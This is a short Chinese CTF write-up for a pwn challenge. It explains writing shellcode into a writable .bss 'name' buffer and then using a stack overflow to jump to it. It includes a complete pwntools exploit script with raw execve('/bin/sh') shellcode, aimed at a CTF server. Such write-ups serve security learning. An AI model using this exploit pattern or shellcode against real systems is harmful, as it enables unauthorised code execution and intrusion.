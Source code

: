 ![[Pasted image 20231220201439.png]]
可以看见有两个read函数
name变量在.bss段
![[Pasted image 20231220201531.png]]
经过gdb调试查看vmmap可以看出该段有读写权限
![[Pasted image 20231220201554.png]]
故可以将shellcode写入name中
然后在buf中栈溢出调用name夺取shell

exp如下：
```python
from pwn import *
p=remote("node4.anna.nssctf.cn",28692)
shellcode = '\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
shell_add = 0x0804851B
name_add = 0x6010A0
p.recvuntil('Please.')
p.sendline(shellcode)
p.recvuntil('start!')
payload = b'a'*(0xA+8)+p64(name_add)
p.sendline(payload)
p.interactive()
```
